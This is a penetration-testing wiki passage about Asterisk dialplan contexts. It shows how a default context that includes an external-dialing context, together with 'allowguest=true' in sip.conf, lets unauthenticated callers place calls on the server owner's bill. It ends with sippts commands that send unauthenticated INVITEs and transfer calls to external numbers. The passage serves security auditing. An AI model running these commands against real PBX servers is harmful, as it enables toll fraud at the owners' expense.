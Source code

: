 Each context is defined in the configuration file, typically in the **`extensions.conf`** file. Contexts are denoted by square brackets, with the context name enclosed within them. For example:

```bash
csharpCopy code[my_context]
```

Inside the context, you define extensions (patterns of dialed numbers) and associate them with a series of actions or applications. These actions determine how the call is processed. For instance:

```scss
[my_context]
exten => 100,1,Answer()
exten => 100,n,Playback(welcome)
exten => 100,n,Hangup()
```

This example demonstrates a simple context called "my_context" with an extension "100". When someone dials 100, the call will be answered, a welcome message will be played, and then the call will be terminated.

This is **another context** that allows to **call to any other number**:

```scss
[external]
exten => _X.,1,Dial(SIP/trunk/${EXTEN})
```

If the admin defines the **default context** as:

```
[default]
include => my_context
include => external
```

> [!WARNING]
> Anyone will be able to use the **server to call to any other number** (and the admin of the server will pay for the call).

> [!CAUTION]
> Moreover, by default the **`sip.conf`** file contains **`allowguest=true`**, then **any** attacker with **no authentication** will be able to call to any other number.

- **`SIPPTS invite`** from [**sippts**](https://github.com/Pepelux/sippts)**:** SIPPTS invite checks if a **PBX server allows us to make calls without authentication**. If the SIP server has an incorrect configuration, it will allow us to make calls to external numbers. It can also allow us to transfer the call to a second external number.

  For example, if your Asterisk server has a bad context configuration, you can accept INVITE request without authorization. In this case, an attacker can make calls without knowing any user/pass.

```bash
# Trying to make a call to the number 555555555 (without auth) with source number 200.
sippts invite -i  10.10.0.10 -fu 200 -tu 555555555 -v

# Trying to make a call to the number 555555555 (without auth) and transfer it to number 444444444.
sippts invite -i 10.10.0.10 -tu 555555555 -t 444444444
```
